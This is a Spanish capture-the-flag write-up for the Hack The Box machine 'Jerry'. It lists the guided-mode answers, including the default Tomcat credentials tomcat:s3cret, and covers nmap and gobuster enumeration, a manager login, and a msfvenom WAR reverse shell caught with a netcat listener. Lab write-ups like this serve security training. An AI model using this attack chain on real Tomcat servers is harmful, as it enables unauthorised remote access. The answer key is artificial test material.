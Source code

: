 ```yaml
---
title: Writeup jerry - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - jerry
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina  jerry en Hack The Box.
keywords:
  - writeup  jerry
  - hack the box  jerry
  - resolución máquina  jerry
  - jerry hack the box
  - htb  jerry
---
```

--------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Windows/Jerry)
- 📺 **Resolución en vivo (completa)**: [Link]([Link](https://www.youtube.com/watch?v=NfEMX7-BFTo))
- 🧠 **Explicación resumida**: 

-------

#easy #windows #ping #nmap #tomcat #arbitraryfileupload #whatweb #msvenom #reverseshell #tratamientotty #rwrapncnlvp443

---------
# Guided Mode

1)¿Qué puerto TCP está abierto en el host remoto?
	8080

2)¿Qué servidor web se está ejecutando en el host remoto? Buscando dos palabras.
	apache tomcat

3)¿Qué ruta relativa en el servidor web lleva al Web Application Manager?
	/manager/html

4)¿Cuál es la combinación válida de nombre de usuario y contraseña para autenticarse en el gestor de aplicaciones web Tomcat? Dar la respuesta en el formato de nombre de usuario:contraseña
	tomcat:s3cret

5)¿Qué tipo de archivo puede cargarse y desplegarse en el servidor utilizando el Administrador de Aplicaciones Web Tomcat?
	war

-----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.95
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.10.10.95 -oG allPorts
nmap -sCV -p8080 10.10.10.95 -oN target
```

![[Jerry1.png]]
![[Jerry2.png]]
*TTL:* Maquina windows
*Puertos:*
	``8080 `` HTTP 

--------
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.10.10.95:8080/
```
![[Jerry3.png]]

![[Jerry12.png]]

Nos informa que esta corriendo un *Tomcat Version 7.0.88*

-------
# [[Gobuster]]

```shell
gobuster dir -u http://10.10.10.95:8080 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -t 64 --add-slash
```

![[Jerry13.png]]

Nos indica que esta el directorio */manager/html*

---------
# [[Arbitrary file upload]] en tomcat

Entramos a la pagina principal y vemos que es un tomcat
![[Jerry5.png]]
Ponemos un usuario y contraseña para probar
![[Jerry6.png]]
Y en la pagina de error, nos muestra un usuario y contraseña que al probarlos, vemos que podemos ingresar al panel de tomcat
![[Jerry4.png]]
tomcat:s3cret

![[Jerry11.png]]
Vemos que podemos subir archivos .war. Asi que vamos a mandarnos una [[Reverse shell]]

-------
# [[Reverse shell]]

Con [[msfvenom]] creamos el archivo .war

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.11 LPORT=443 -f war -o shell.war
```

![[Jerry8.png]]
Creamos el archivo shell.war que lo vamos a subir a la pagina 

Ahora mientras estamos en escucha con [[rlwrap nc -lvnp 443]] vamos a ingresar a la pagina http://10.10.10.95:8080/shell/ para ejecutar el archivo shell.war que subimos anteriormente
Y listo ya estamos adentro de la maquina y podemos catear las flags
![[Jerry9.png]]

![[Jerry10.png]]

---------
# Notas

Tomcat es un servidor de aplicaciones desarrollado por Apache que permite ejecutar aplicaciones web escritas en Java. Funciona como contenedor de servlets y JSP, siguiendo la especificación Java EE. Escucha comúnmente en el puerto 8080. Es usado tanto en entornos de desarrollo como en producción.

----
# Creditos

[Writeup de territoriohacker](https://territoriohacker.com/htb-jerry/)